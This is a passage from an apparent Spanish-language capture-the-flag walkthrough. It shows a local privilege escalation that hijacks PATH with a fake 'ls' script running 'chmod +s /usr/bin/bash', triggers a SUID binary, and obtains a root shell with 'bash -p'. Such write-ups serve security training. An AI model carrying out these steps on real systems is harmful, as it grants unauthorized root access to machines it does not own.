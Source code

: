 ![image](/assets/images/insecure/9.png)

Vamos a modificar el path para añadir el directorio home del usuario. Ejecutamos:

```bash
johntheripper@6a2ba51ee826:~$ export PATH=/home/johntheripper/:$PATH
PATH=/home/johntheripper/:johntheripper@6a2ba51ee826:~$ echo $PATH
/home/johntheripper/:/usr/local/bin:/usr/local/sbin:/usr/bin:/usr/sbin:/bin:/sbin:.
```

Creamos en el directorio home del usuario **johntheripper** un archivo llamado **ls** que ejecute lo siguiente y después le damos permisos de ejecución:

```bash
#!/bin/bash
chmod +s /usr/bin/bash
```

Ahora ejecutamos el binario **show_files** y después ejecutamos bash -p para obtener la shell de root:

```bash
johntheripper@6a2ba51ee826:~$ ./show_files 
johntheripper@6a2ba51ee826:~$ bash -p
bash-5.2# whoami
root
```
